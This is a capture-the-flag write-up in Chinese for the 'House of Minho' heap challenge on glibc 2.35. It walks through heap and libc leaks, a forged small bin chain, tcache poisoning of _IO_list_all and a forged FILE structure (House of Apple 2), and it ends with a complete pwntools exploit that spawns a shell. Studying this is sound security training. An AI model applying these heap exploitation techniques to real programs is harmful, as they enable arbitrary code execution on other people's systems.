







# pwn-2

House of Minho

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.1|

## 解题思路

> 这道题出自[Black Hat 2023 中的一题](https://bbs.kanxue.com/thread-279588.htm)，
> 本文需要读者先阅读这篇文章了解相关利用手法，这样看题解效率更高

这道题改编的挺多的，溢出的尺寸，自己实现的puts（防止利用其中的ifunc），
自己实现的scanf（防止分配大块），不过其实相对更简单了

> 下文用 *Ms* 指代"分配小堆块"，用 *Fl* 指代"释放大堆块"，
> 分别用 *Us* , *Ul* 指代分配0x10堆块和0x1000堆块，
> 并且一些释放操作被省略了，理解即可

### 第一步

0x10的堆块可以溢出0x10，刚好溢出`prev_size`和`size`，读到下一个堆块的`fd`，
拿到heapBase

因此 *MsFsMlFl* 后，大小堆块都在tcache中， *Ms* 后溢出就可以读到`heap >> 12`，
反推出heapBase

这里的小堆块布置在大堆块低处，方便后续布局



### 第二步

利用orange的手法，将top_chunk的size改得符合要求且小于0x1000，这样分配0x1000的堆块时，
top_chunk就会被放进unsorted bin中，在溢出写可以拿到libcBase

即 *Ml* 改size， *UlFlMl* 溢出后读，将`fd`减去`main_arena`和unsorted bin offset得到libc



这里由于下面会产生两个哨兵块，所以size减少了0x20

### 第三步

接下来就是把在unsorted bin中的top_chunk放进small bin中，方便后面stash

首先 *Us* 把之前的剩下的小堆块占用掉，保持0x21的tcache是空的，然后 *Ml* 把top_chunk的size改小，
改为0x21方便后面使用，再跟上0x10, 0x11两个堆块来通过检查:
现在top_chunk确实not in use，并且0x10后“看起来”还有堆块

最后 *Ul* 触发堆块整理，把0x21的unsorted bin整理到small bin中





### 第四步

伪造一个small bin的链子，就像提到的文章里一样，要注意的是最后一个的堆块的`bk`与原文不同，
是`main_arena + 112`，因为结束stash的条件是

```c
(tc_victim = last (bin)) != bin
```

而这里的bin对应的是0x20尺寸的small bin的地址，即`main_arena + 112`

*Ml*溢出写后， *FlMs* 触发stash，除去第一个堆块被拿走外，剩余的两个通过`bk`解链，
并依次放入tcache中，然后 *Fs* 把刚分配走的一个也放回了tcache中，
至此，tcache中有了3个0x21的chunk



### 第五步

*Ml* 把最近的一个堆块溢出写为`_IO_list_all`加密后的结果，在这个过程中，
tcache entry从`heap -> heap + 0x20`变为了`heap -> _IO_list_all`，然后 *Ul*
就会拿到这个堆块，同时把`_IO_list_all`挂到tcache entry上



### 第六步

伪造file结构体， *Ml* 把结构体写到堆上，然后 *FlMs* 把堆地址写到`_IO_list_all`上，
最后退出程序就会在退出时触发House of Apple

需要注意的是，小堆块分配到`_IO_list_all`上后就不能再释放，因为过不了检测了；
此外在 *Fl* 时，伪造的结构体的`_flags`会被覆写为`heap >> 12`，并且还无法调位置——
整个结构体长0xe8，而我们只能写0xf0个字节；由于`_flags`不可能是`  sh;`，
所以我们必须使用OneGadget

这个exp的成功概率只有1/8，因为House of Apple 2对`_flags`有要求，
`_flags & (_IO_NO_WRITES | _IO_UNBUFFERED | _IO_CURRENTLY_PUTTING) == 0`，
`_flags`在开启了aslr后是随机的，因此这些位都有可能是1

> 看了一血的解答发现exp是可以百分百成功的，只需要在第一次小堆块溢出写时，
> 把大堆块的`prev_size`写作`  sh;`，然后将伪造的FILE往前调0x10，
> 就可以绕过释放时`fd`的限制，具体如图所示
> 
> 

## EXPLOIT

```python
from pwn import *
import inspect
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        if lo & 4:
            EXE = './orig'
            libc = ELF('/usr/lib/libc.so.6')
            arena = 0x1daac0
        else:
            EXE = './minho'
            libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.1_amd64/libc.so.6')
            arena = 0x219c80
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
            gdb.attach(sh, 'b malloc\nb free')
            # gdb.attach(sh, 'b _IO_flush_all\nc')

    def malloc(large:bool, cont:bytes):
        sh.sendlineafter(b'3:', b'1')
        sh.sendlineafter(b'big', b'2' if large else b'1')
        sleep(0.25)
        sh.send(cont)

    def free():
        sh.sendlineafter(b'3:', b'2')
        # if sh.recvuntil(b'wrong', timeout=0.125):
        #     warn(f'freeing null chunk @ line {inspect.stack()[1].lineno}')

    def show() -> bytes:
        sh.sendlineafter(b'3:', b'3')
        return sh.recvuntil(b'1:', True)

    def malloc0x10():
        sh.sendlineafter(b'3:', b'4')

    def eout():
        sh.sendlineafter(b'3:', b'5')

    def malloc0x1000():
        sh.sendlineafter(b'3:', b'6')
    
    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr
        
    # Step 1, leak heapBase
    malloc(False, b'\n')
    free()
    malloc(True, b'\n')
    free()
    malloc(False, b'FLAG'.rjust(0x20))
    val = show()
    idx = val.index(b'FLAG') + 4
    heapBase = u64(val[idx:idx + 5] + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 2, leak libcBase
    free()
    malloc(False, b'0'*0x10 + p64(0) + p64(0x61)) # restore heap layout
    free()
    malloc(True, b'0'*0x50 + p64(0) + p64(0xcf1))
    malloc0x1000() # put top_chunk in unsorted bin
    free()
    malloc(True, b'FLAG'.rjust(0x60))
    val = show()
    idx = val.index(b'FLAG') + 4
    
    mainArena = u64(val[idx:idx + 6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - arena
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))

    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wjumps = libcBase + libc.symbols['_IO_wfile_jumps']

    # Step 3, shrink old top_chunk and put it in small bin
    malloc0x10() # clear the remaining tcache chunk
    free()
    malloc(True, b'0'*0x50 +                                     # the size of "small bin" we can control is 0x21
           p64(0) + p64(0x21) + p64(libcBase + arena + 0x60)*2 + # shrink chunk size from 0xcf1 to 0x21
           p64(0x20) + p64(0x10) + p64(0) + p64(0x11))           # 2 lookout chunks to make forced chunk legal
    malloc0x1000() # trigger malloc_consolidate()

    # Step 4, force a small bin chain to control tcache
    heap = heapBase + 0x310
    free()
    malloc(True, b'0'*0x50 + 
           p64(0) + p64(0x21) + p64(heap) + p64(heap + 0x20) +
           p64(0) + p64(0x21) + p64(heap) + p64(heap + 0x40) + 
           p64(0) + p64(0x21) + p64(heap + 0x20) + p64(libcBase + arena + 112) + # main_arena + 112 is the "bin" to end 
           p64(0x20) + p64(0x10) + p64(0) + p64(0x11))                           # small bin stashing for chunks with this size
    free()
    malloc(False, b'\n') # trigger small bin stash to tcache
    free()          # before: tcache entry -> heap -> heap + 0x20 -> heap + 0x40

    # Step 5, overwrite the fd of first chunk and put it on tcache entries
    malloc(True, b'0'*0x50 + p64(0) + p64(0x21) + p64(PROTECT_PTR(heap, ioListAll)))
    malloc0x10()    # later : tcache entry -> _IO_list_all -> ???

    # force House of Apple 2
    file = flat({                           # heap - 0x50 to align with the beginning of the large chunk
        0x0: b'  sh;',                      # flag NOTE will be overwritten when free
        0x28: 1,                            # _IO_write_ptr
        0x68: libcBase + 0xebcf1,           # NOTE so we can only use one_gadget (2.39 not available)
        0xa0: heap - 0x50,                  # _wide_data
        0xd8: wjumps,                       # vtable
        0xe0: heap - 0x50                   # wide data vtable
        }, filler=b'\0')

    # Step 6, write fake file and then write _IO_list_all
    dbg()
    free()
    malloc(True, file) # write the whole structure
    free() # but flag is overwritten when free
    malloc(False, p64(heap - 0x50)) # write fake file on _IO_list_all
    eout() # exit to trigger House of Apple 2

    sh.clean()
    sh.interactive()
```

## 参考

[Black Hat 2023 0解Pwn题Houseofminho详细WP](https://bbs.kanxue.com/thread-279588.htm)
